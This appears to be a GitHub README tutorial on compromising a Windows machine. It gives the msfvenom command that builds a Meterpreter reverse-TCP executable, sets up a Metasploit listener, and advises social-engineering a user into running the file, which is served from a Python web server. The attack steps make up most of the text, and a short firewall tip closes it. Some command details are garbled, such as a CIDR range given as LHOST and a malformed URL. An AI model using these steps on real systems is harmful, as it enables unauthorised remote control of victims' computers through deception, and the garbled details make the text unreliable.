 # windows-hacking
WINDOWS AND LINUX HACKING

		
Create metasploit:

Before creating the metasploit, we need to figure out what is our Kali Linux local IP.
For that, run  “ip addr”  or  “ifconfig”
![image](https://github.com/user-attachments/assets/f5e84bbf-46d3-4ce6-b433-0c35288705fa)

 
In the terminal run the follow command:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.0/24 LPORT=4444 –f exe > reverse_shell.exe
![image](https://github.com/user-attachments/assets/1e650a7e-9308-48b6-be77-7e482e8eadc0)

 

The command above instructs msfvenom to generate a 32-bit Windows executable file that implements a reverse TCP connection for the payload. The format must be specified as being type .exe, and the local host (LHOST) and local port (LPORT) have to be defined. In our case, the LHOST is the IP address of our attacking Kali Linux machine that we got in the last command, and the LPORT is the port to listen on for a connection from the target once it has been compromised.
The name of the .exe is up to you. In this case I’ll be using reverse_shell.exe because our target will be a only for test purpose.

Connection:


We now need to set up a listener on the port we determined within the executable. We do this by launching Metasploit using the command msfconsole on the Kali Linux terminal.
![image](https://github.com/user-attachments/assets/659e1ce5-8860-4f95-8c75-62ee6d1ce198)

 
The screenshot below shows what commands to issue within Metasploit. First, we’ll tell Metasploit to use the generic payload handler “multi/handler” using the command “use multi/handler”. We will then set the payload to match the one set within the executable using the command “set  payload windows/meterpreter/reverse_tcp”. We will then set the LHOST and LPORT this way — “set LHOST 192.168.47.152”and  “set  LPORT 4444”. Once done, type ```run``` or ```exploit```and press Enter.
The screenshot below displays the output. The reverse TCP handler should begin waiting for a connection.
 ![image](https://github.com/user-attachments/assets/57dae01d-54fe-45e2-b071-0a04e5315e80)

You can use show “options” command  to check if everything’s ok
 ![image](https://github.com/user-attachments/assets/3f18bc7f-c2b6-4388-9cb0-6219b44c6b09)


If everything’s ok type run or exploit
![image](https://github.com/user-attachments/assets/99756288-e6f7-4914-9cbc-caef4fafc2b4)

 

Social Engineer:


Now it’s the part that you need to do some social engineer in order to make the user execute the program.
For this tutorial we will simply host the .exe on python3 and transfer it on the Windows Machine.
![image](https://github.com/user-attachments/assets/f59d1b56-0155-42ee-a8e2-958d098eb64d)

 
On the Windows machine you just need to access via the browser the IP/File.exe
In our case is 192.168.o.o/24:8888/reverse_shell.exe .  Host  in python

![image](https://github.com/user-attachments/assets/0ffef250-39db-4dc3-a5d7-4aed0dfccd94)



 
Now execute and check the connection on the Kali Machine.
![image](https://github.com/user-attachments/assets/957c6ca9-9f2f-46fd-b35d-2f09ae9c1591)


 

 

Successfully compromise my windows machine using kali linux. It is only for educational purpose only.

How to Protect:
For this type of attacks the most important thing is to have the Firewall enabled. Windows Defender makes a good job protecting files like this.


